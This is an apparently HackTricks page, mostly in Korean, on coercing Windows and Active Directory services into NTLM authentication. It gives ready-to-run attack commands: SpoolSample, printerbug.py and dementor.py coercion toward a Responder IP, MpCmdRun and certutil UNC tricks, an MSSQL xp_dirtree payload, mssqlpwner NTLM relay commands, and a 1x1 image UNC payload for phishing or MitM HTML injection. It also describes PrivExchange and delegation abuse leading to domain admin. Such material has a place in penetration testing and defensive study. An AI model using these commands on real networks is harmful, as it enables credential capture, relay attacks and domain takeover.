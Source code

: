 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers)는 **3rd party dependencies**를 피하기 위해 MIDL 컴파일러를 사용하여 C#로 코딩된 **원격 인증 트리거**의 **모음**입니다.

## Spooler Service Abuse

_**Print Spooler**_ 서비스가 **활성화**되어 있으면, 이미 알려진 AD 자격 증명을 사용하여 도메인 컨트롤러의 프린트 서버에 새로운 인쇄 작업에 대한 **업데이트**를 **요청**하고 이를 **어떤 시스템으로 알리도록** 지시할 수 있습니다.\
프린터가 임의의 시스템으로 알림을 보낼 때, 해당 **시스템**에 대해 **인증**해야 합니다. 따라서 공격자는 _**Print Spooler**_ 서비스가 임의의 시스템에 대해 인증하도록 만들 수 있으며, 이 인증에서 서비스는 **컴퓨터 계정**을 **사용**합니다.

### Finding Windows Servers on the domain

PowerShell을 사용하여 Windows 박스 목록을 가져옵니다. 서버는 일반적으로 우선 순위가 높으므로, 여기에 집중합시다:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spooler 서비스 청취 확인

약간 수정된 @mysmartlogin의 (Vincent Le Toux의) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)를 사용하여 Spooler 서비스가 청취 중인지 확인합니다:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux에서 rpcdump.py를 사용하여 MS-RPRN 프로토콜을 찾을 수도 있습니다.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 서비스에 임의의 호스트에 대해 인증하도록 요청

[ **여기에서 SpoolSample을 컴파일할 수 있습니다**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
또는 Linux를 사용하는 경우 [**3xocyte의 dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) 또는 [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)를 사용하세요.
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation과 결합

공격자가 이미 [Unconstrained Delegation](unconstrained-delegation.md)으로 컴퓨터를 손상시킨 경우, 공격자는 **프린터가 이 컴퓨터에 대해 인증하도록 만들 수 있습니다**. 비제한 위임 덕분에 **프린터의 컴퓨터 계정의 TGT**는 비제한 위임이 있는 컴퓨터의 **메모리에 저장됩니다**. 공격자가 이미 이 호스트를 손상시켰기 때문에, 그는 **이 티켓을 검색하고 악용할 수 있습니다** ([Pass the Ticket](pass-the-ticket.md)).

## RCP 강제 인증

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` 공격은 **Exchange Server `PushSubscription` 기능**에서 발견된 결함의 결과입니다. 이 기능은 Exchange 서버가 메일박스가 있는 모든 도메인 사용자에 의해 HTTP를 통해 제공된 클라이언트 호스트에 인증되도록 강제할 수 있게 합니다.

기본적으로 **Exchange 서비스는 SYSTEM으로 실행되며** 과도한 권한이 부여됩니다 (특히, **2019년 누적 업데이트 이전 도메인에 대한 WriteDacl 권한이 있습니다**). 이 결함은 **LDAP에 정보를 중계하고 이후 도메인 NTDS 데이터베이스를 추출할 수 있도록 악용될 수 있습니다**. LDAP로의 중계가 불가능한 경우에도 이 결함은 여전히 도메인 내 다른 호스트에 중계하고 인증하는 데 사용될 수 있습니다. 이 공격의 성공적인 악용은 인증된 도메인 사용자 계정으로 도메인 관리자의 즉각적인 접근을 허용합니다.

## Windows 내부

Windows 머신 내부에 이미 있는 경우, 다음을 사용하여 권한 있는 계정으로 서버에 연결하도록 Windows를 강제할 수 있습니다:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
또는 이 다른 기술을 사용할 수 있습니다: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin (Microsoft 서명 이진 파일)을 사용하여 NTLM 인증을 강제할 수 있습니다:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML 주입

### 이메일을 통한

당신이 손상시키고자 하는 머신에 로그인하는 사용자의 **이메일 주소**를 알고 있다면, 그에게 **1x1 이미지**가 포함된 **이메일**을 보낼 수 있습니다.
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
그리고 그가 그것을 열면, 그는 인증을 시도할 것입니다.

### MitM

컴퓨터에 MitM 공격을 수행하고 그가 볼 수 있는 페이지에 HTML을 주입할 수 있다면, 다음과 같은 이미지를 페이지에 주입해 볼 수 있습니다:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 크래킹

[NTLMv1 챌린지를 캡처할 수 있다면 여기를 읽고 크래킹하는 방법을 알아보세요](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;emember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"_

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

